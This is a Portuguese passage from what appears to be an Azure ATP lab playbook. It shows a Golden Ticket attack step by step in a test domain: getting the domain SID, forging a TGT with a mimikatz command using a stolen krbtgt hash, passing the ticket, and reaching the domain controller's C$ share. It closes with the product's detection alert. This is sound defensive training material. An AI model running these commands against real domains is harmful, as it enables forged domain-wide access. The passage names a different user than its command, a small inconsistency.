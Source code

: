 Depois de roubar o "Golden Ticket", (conta "krbtgt" explicada [aqui por meio da Replicação mal-intencionada](#Malicious-Replication)), um invasor é capaz de assinar tíquetes *como se fosse o controlador de domínio*. **Mimikatz**, o SID do Domínio e a conta "krbtgt" roubada são necessários para realizar esse ataque. Além de podermos gerar tíquetes para um usuário, podemos gerar tíquetes para usuários que nem existem.

1. Como DiogoM, execute o comando abaixo no **VictimPC** para adquirir o SID do domínio:

   ``` cmd
   whoami /user
   ```

   ![SID para usuário do golden ticket](media/playbook-dominance-golden_whoamisid.png)

2. Identifique e copie o SID do Domínio realçado na captura de tela acima.

3. Usando **mimikatz**, use o SID de Domínio copiado, junto com o hash NTLM do usuário do "krbtgt" roubado para gerar o TGT. Insira o texto a seguir em um cmd.exe como DiogoM:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![Gerar o Golden ticket](media/playbook-dominance-golden_generate.png)

   A parte ```/ptt``` do comando nos permitiu passar imediatamente o tíquete gerado para a memória.

4. Vamos verificar se a credencial está na memória.  Execute ```klist``` no console.

   ![Resultados do klist depois de passar o tíquete gerado](media/playbook-dominance-golden_klist.png)

5. Atuando como invasor, execute o seguinte comando Pass-the-Ticket para usá-lo no controlador de domínio:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   Sucesso! Você gerou um Golden Ticket **falso** para YasminC.

   ![Executar o Golden Ticket via mimikatz](media/playbook-dominance-golden_ptt.png)

Por que isso funcionou? O ataque de Golden Ticket funciona porque o tíquete gerado foi assinado corretamente com a chave "KRBTGT" que coletamos anteriormente. Esse tíquete permite que nós, no papel de invasor, obtenhamos acesso ao ContosoDC e adicionemos a nós mesmo a qualquer Grupo de Segurança que desejemos usar.

#### <a name="golden-ticket--existing-user-attack-detection"></a>Detecção de ataque Golden Ticket- Usuário existente

O ATP do Azure usa vários métodos para detectar ataques suspeitos desse tipo. Nesse cenário exato, o ATP do Azure detectou o downgrade de criptografia do tíquete falso.

![Golden Ticket sendo detectado](media/playbook-dominance-golden_detected.png)
